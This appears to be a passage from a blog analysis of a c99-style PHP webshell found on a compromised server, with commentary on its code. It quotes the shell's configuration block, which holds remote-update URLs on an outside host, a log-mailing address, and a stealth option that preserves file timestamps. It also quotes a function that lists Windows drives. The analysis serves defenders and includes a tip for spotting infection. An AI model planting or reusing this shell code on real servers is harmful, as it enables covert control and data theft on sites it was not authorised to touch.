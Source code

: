 Original comments are in place. The idea from this code is to inject a proper
password protected webshell that can be used only by the attacker.

Password, MD5 hashed has been stored in a passs.txt file. You would look into
your filesystem for it just to make sure that this lame attacker has not
infected you.

``` php The authentication bit
//Authentication 
$login = "";  
$pass = ""; 
$md5_pass = "md5($pass)"; //Password yg telah di enkripsi dg md5. Jika kosong, md5($pass). 
$host_allow = array("*"); //Contoh: array("192.168.0.*","127.0.0.1") 
$login_txt = "Restricted Area"; //Pesan HTTP-Auth 
$accessdeniedmess = "<a href=\"$sh_mainurl\">".$sh_name."</a>: access denied"; 
$gzipencode = TRUE; 
$updatenow = FALSE; //Jika TRUE, update shell sekarang. 
$c99sh_updateurl = $sh_mainurl."ipays.php"; 
$c99sh_sourcesurl = $sh_mainurl."passs.txt"; 
//$c99sh_updateurl = "http://www.utama-audio.com/ipays/tool/"; 
//$c99sh_sourcesurl = "http://www.utama-audio.com/ipays/tool/passs.txt"; 
$filestealth = TRUE; //TRUE, tidak merubah waktu modifikasi dan akses. 
$curdir = "./"; 
$tmpdir = "";  
$tmpdir_log = "./"; 
$log_email = "injektorku@gmail.com"; //email untuk pengiriman log. 
$sort_default = "0a"; //Pengurutan, 0 - nomor kolom. "a"scending atau "d"escending 
$sort_save = TRUE; //Jika TRUE, simpan posisi pengurutan menggunakan cookies. 
$sess_cookie = "c99shvars"; //Nama variabel Cookie 
$usefsbuff = TRUE; //Buffer-function 
$copy_unset = FALSE; //Hapus file yg telah di-copy setelah dipaste 
$hexdump_lines = 8; 
$hexdump_rows = 24; 
$win = strtolower(substr(PHP_OS,0,3)) == "win"; 
$disablefunc = @ini_get("disable_functions"); 
if (!empty($disablefunc)) { 
  $disablefunc = str_replace(" ","",$disablefunc); 
  $disablefunc = explode(",",$disablefunc); 
} 

```

I have to admit that I tought about a friend of mine playing with me when I saw this function in the PHP code. 
It seems that this webshell wants to scan for Windows powered disk drivers, but
I'm not that sure that is used in the real shell.

``` php A disk? In 2012?
function disp_drives($curdir,$surl) { 
  $letters = ""; 
  $v = explode("\\",$curdir); 
  $v = $v[0]; 
  foreach (range("A","Z") as $letter) { 
    $bool = $isdiskette = $letter == "A"; 
    if (!$bool) {$bool = is_dir($letter.":\\");} 
    if ($bool) { 
      $letters .= "<a href=\"".$surl."act=ls&d=".urlencode($letter.":\\")."\"". 
      ($isdiskette?" onclick=\"return confirm('Make sure that the diskette is inserted properly, otherwise an error may occur.')\"":"")."> ["; 
      if ($letter.":" != $v) {$letters .= $letter;} 
      else {$letters .= "<font color=yellow>".$letter."</font>";} 
      $letters .= "]</a> "; 
    } 
  } 
  if (!empty($letters)) {Return $letters;} 
  else {Return "None";} 
```